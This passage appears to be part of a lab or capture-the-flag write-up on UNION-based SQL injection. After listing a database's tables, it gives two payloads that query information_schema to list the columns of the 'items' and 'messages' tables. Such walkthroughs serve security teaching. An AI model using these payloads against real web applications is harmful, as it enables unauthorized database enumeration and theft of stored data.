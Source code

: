 ![alt text](image-20.png)

+ We have 3 tables name as " items, messages, users"
+ Next we will extract the columns in each table_name.

```bash
5 UNION SELECT group_concat(column_name),2,3,4 FROM information_schema.columns WHERE table_name='items'
```

![alt text](image-21.png)

```bash
5 UNION SELECT group_concat(column_name),2,3,4 FROM information_schema.columns WHERE table_name='messages'
```

![alt text](image-22.png)
